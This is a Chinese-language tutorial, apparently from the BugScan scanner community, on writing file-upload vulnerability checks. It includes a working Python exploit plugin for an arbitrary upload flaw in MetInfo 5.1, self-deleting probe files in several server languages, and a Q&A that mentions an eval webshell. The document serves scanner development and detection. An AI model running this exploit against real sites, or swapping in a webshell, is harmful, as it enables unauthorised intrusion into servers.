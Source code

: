 # 文件上传类
---

文件上传类插件可以分两种方法进行上传:

* raw (**推荐**)

    直接发送 HTTP 原始报文，可直接从 BurpSuite 中复制该报文，使用 hackhttp 的 raw 发包形式来上传文件。

* post 

	通过构造 `enctype="multipart/form-data"` 形式的 form  表单来上传文件。
	> 由于 MIME 类型较多，在处理时比较麻烦，官方推荐使用 raw 形式上传文件。

    

**范例插件**

[MetInfo5.1 /feedback/uploadfile_save.php 任意文件上传](http://www.bugscan.net/source/plugin/2447/template/)

> 感谢插件作者: [wonderkun](http://www.bugscan.net/accounts/template/profile/#/1937)

```
#!/usr/bin/evn python
# -*-:coding:utf-8 -*-
# Author: wonderkun
# Name: MetInfo5.1 任意文件上传 getshell
# Refer: http://www.wooyun.org/bugs/wooyun-2015-0139168
# Data: 2015/12/15

import time

def assign(service,arg):
    if service == fingerprint.metinfo:
        return True, arg

def audit(arg):
    url = arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo"

    raw = '''
POST /feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo HTTP/1.1
Host: localhost
Content-Length: 423
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE1toBNeESf6p0uXQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=hfqa37uap92gdaoc2nsco6g0n1

------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][para]"

filea
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][type]"

5
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="filea"; filename="test.php"
Content-Type: application/x-php

<?php echo md5(1);unlink(__FILE__);?>
------WebKitFormBoundaryE1toBNeESf6p0uXQ--
    '''
    # proxy=('127.0.0.1',8080)
    code1, head1, res1, finalurl1, log1 = hackhttp.http(url, raw=raw)

    # get upload file name
    name = int(time.time())
    for i in range(100, 10000):
        filename = name + i
        url = arg + 'upload/file/%s.php' % (str(filename))
        code2, head2, res2, finalurl2, log2 = hackhttp.http(url)
        if code2 == 200 and "c4ca4238a0b923820dcc509a6f75849b" in res2:
            # 只用传递触发漏洞的 log，验证上传成功的 log 不需要
            security_hole('file upload Vulnerable:' + arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo", log=log1)
            break
if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.metinfo, "http://127.0.0.1/metinfo5.1/")[1])

```

### 文件上传类插件检测步骤

1. 上传指定文件到目标
2. 访问上传后的文件
3. 判断是不是 1 中上传的文件

### 文件上传类的插件原则

1. 一般情况下要求上传可执行的文件，例如：php, asp, aspx, jsp
2. 上传文件内容要求对目标不得造成任何形式的损害。
3. 上传后的文件，在访问一次之后应该自删除。
4. 文件名应该尽量随机，不要与正常文件名相同。

### 上传文件样例代码

BugScan 社区官方提供了以下几类语言的上传检测样本，供开发者参考，所有文件都会在访问一次之后自删除，如果无删除权限时，由于其只输出字符串，也不会造成太大危害。

* PHP

	```php
	<?php echo md5(233);unlink(__FILE__);?>
	```
	输出: e165421110ba03099a1c0393373c5b43

* ASP

	```
	<%
	Response.Write chr(101)&chr(49)&chr(54)&chr(53)&chr(52)&chr(50)&chr(49)&chr(49)&chr(49)&chr(48)&chr(98)&chr(97)&chr(48)&chr(51)&chr(48)&chr(57)&chr(57)&chr(97)&chr(49)&chr(99)&chr(48)&chr(51)&chr(57)&chr(51)&chr(51)&chr(55)&chr(51)&chr(99)&chr(53)&chr(98)&chr(52)&chr(51)
	CreateObject("Scripting.FileSystemObject").DeleteFile(server.mappath(Request.ServerVariables("SCRIPT_NAME")))
	%>
	```

	访问该文件后输出: e165421110ba03099a1c0393373c5b43

* ASPX

	```
	<%@Page Language="C#"%>
	<%
	Response.Write(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	System.IO.File.Delete(Request.PhysicalPath);
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

* JSP

	```jsp
	<%
	out.println(new String(new sun.misc.BASE64Decoder().decodeBuffer("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	new java.io.File(application.getRealPath(request.getServletPath())).delete();
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

### 文件上传 Q & A

> Q: 为什么不能上传 `eval($_POST[a]);`?

> A: 上传 webshell 会对目标造成危害，违反了无损扫描这一约定，并且上传内容中包含后门特征，容易被防护产品拦截。

---

> Q: 为什么不能上传 `phpinfo();`?

> A: `phpinfo();`看起来无害实际上却有着泄漏目标服务敏感信息的危害。如果在检测后忘记删除文件，会对其它攻击者提供便利。 

---

> Q: 为什么要自删除？
> 
> A: 自删除可保证在检测之后不会在目标系统中留下检测时产生的文件，对目标影响较小。如果上传的件名不是随机的，在下次上传时会出现写入不成功的情况。

---

> Q: 为什么文件名要随机？
> 
> A: 文件名随机在检测没有重命名处理的上传点时好处有：
> 
> 1. 如果文件名与现有的文件同名，写入会失败或者覆盖原文件。
> 2. 第一次检测上传成功，在修复漏洞后忘记删除该文件，下次检测时访问该文件会产生误报。




